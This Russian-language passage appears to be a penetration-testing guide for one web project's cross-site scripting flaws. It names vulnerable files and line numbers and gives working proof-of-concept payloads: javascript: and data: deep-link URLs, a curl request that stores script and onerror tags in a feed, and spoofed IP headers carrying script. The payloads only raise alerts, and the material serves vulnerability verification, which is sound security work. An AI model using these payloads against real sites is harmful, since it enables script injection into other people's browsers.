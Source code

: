 **Как тестировать:**
1. Открой браузер (лучше в приватном режиме)
2. Вставь URL с payload'ом
3. Нажми Enter
4. Если увидишь alert - БИНГО! 🎉

### 2. DeepLink XSS в HTML файлах

**Уязвимые файлы:**
- `/web-mystery-shopper/join-by-referral.html` (строка 75)
- `/web-mystery-shopper/deep-link.html` (строка 74)

**Тестовые URL:**
```
https://your-domain.com/web-mystery-shopper/deep-link.html?deepLink=javascript:alert('AKUMA_DEEPLINK')

https://your-domain.com/web-mystery-shopper/join-by-referral.html?deepLink=data:text/html,<script>alert('HACKED')</script>
```

### 3. Stored XSS в getLargeEdadealFeed.ts

**Тест через cURL:**
```bash
curl -X POST https://your-domain.com/feeds/edadeal/large \
  -H "Content-Type: application/json" \
  -d '{"catalog": "<script>alert(\"AKUMA_STORED\")</script>", "offers": ["<img src=x onerror=alert(\"STORED_XSS\")>"]}'
```

**Затем проверь этот URL в браузере:**
```
https://your-domain.com/feeds/edadeal/large
```

### 4. Reflected XSS через req.ip

**Тест через cURL с подделкой IP:**
```bash
# Подделываем IP хедерами
curl -H "X-Forwarded-For: <script>alert('AKUMA_IP_XSS')</script>" \
     https://your-domain.com/status

curl -H "X-Real-IP: <img src=x onerror=alert('IP_REFLECTED')>" \
     https://your-domain.com/status

# Через прокси Burp Suite - измени хедеры
```

### 5. dangerouslySetInnerHTML в React

**Уязвимые компоненты:**
- `/atomic/pages/Trademark.tsx` (строка 90)
- `/lib/shared-components/src/components/CVM/CurrentOfferCard/` (строка 82)
